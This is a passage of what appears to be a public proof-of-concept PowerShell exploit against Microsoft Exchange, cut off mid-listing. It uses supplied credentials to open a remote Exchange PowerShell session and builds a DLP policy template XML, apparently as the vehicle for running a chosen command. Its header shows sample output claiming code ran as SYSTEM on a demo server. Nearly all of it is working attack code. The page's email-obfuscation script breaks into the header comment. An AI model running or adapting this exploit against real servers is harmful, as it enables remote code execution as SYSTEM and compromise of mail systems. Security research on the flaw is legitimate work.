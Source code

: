     # (+) targeting WIN-0K4AOM2JIN6.exchangedemo.com with <a class="__yjs_email__" href="/cdn-cgi/l/email-protection" data-yjsemail="4b232a393932260b2e3328232a252c2e2f2e262465282426">[email protected]</a><script data-yjshash='f9e31' type="text/javascript">/* <![CDATA[ */!function(t,e,r,n,c,a,p){try{t=document.currentScript||function(){for(t=document.getElementsByTagName('script'),e=t.length;e--;)if(t[e].getAttribute('data-yjshash'))return t[e]}();if(t&&(c=t.previousSibling)){p=t.parentNode;if(a=c.getAttribute('data-yjsemail')){for(e='',r='0x'+a.substr(0,2)|0,n=2;a.length-n;n+=2)e+='%'+('0'+('0x'+a.substr(n,2)^r).toString(16)).slice(-2);p.replaceChild(document.createTextNode(decodeURIComponent(e)),c)}p.removeChild(t)}}catch(u){}}()/* ]]> */</script>:user123###
    # (+) executed mspaint as SYSTEM!
    # PS C:\Users\researcher>

    param (
        [Parameter(Mandatory=$true)][string]$server,
        [Parameter(Mandatory=$true)][string]$usr,
        [Parameter(Mandatory=$true)][string]$pwd,
        [string]$cmd = "mspaint"
    )

    Function Get-RandomAlphanumericString {
        [CmdletBinding()]
        Param (
            [int] $length = 8
        )
        Process{
            Write-Output ( -join ((0x30..0x39) + ( 0x41..0x5A) + ( 0x61..0x7A) | Get-Random -Count $length  | % {[char]$_}) )
        }
    }

    function Exploit-Exchange {
        Param (
            [string] $server,
            [string] $usr,
            [string] $pwd,
            [string] $cmd
        )
        "(+) targeting $server with ${usr}:$pwd"
        $securepwd = ConvertTo-SecureString $pwd -AsPlainText -Force
        $creds = New-Object System.Management.Automation.PSCredential -ArgumentList ($usr, $securepwd)
        $s = New-PSSession -ConfigurationName Microsoft.Exchange -ConnectionUri http://$server/PowerShell/ -Authentication Kerberos -Credential $creds

        $xml = @"
    <dlpPolicyTemplates>
      <dlpPolicyTemplate id="F7C29AEC-A52D-4502-9670-141424A83FAB" mode="Audit" state="Enabled" version="15.0.2.0">
        <contentVersion>4</contentVersion>
        <publisherName>si</publisherName>
        <name>
          <localizedString lang="en"></localizedString>
        </name>
        <description>
          <localizedString lang="en"></localizedString>
        </description>
        <keywords></keywords>
        <ruleParameters></ruleParameters>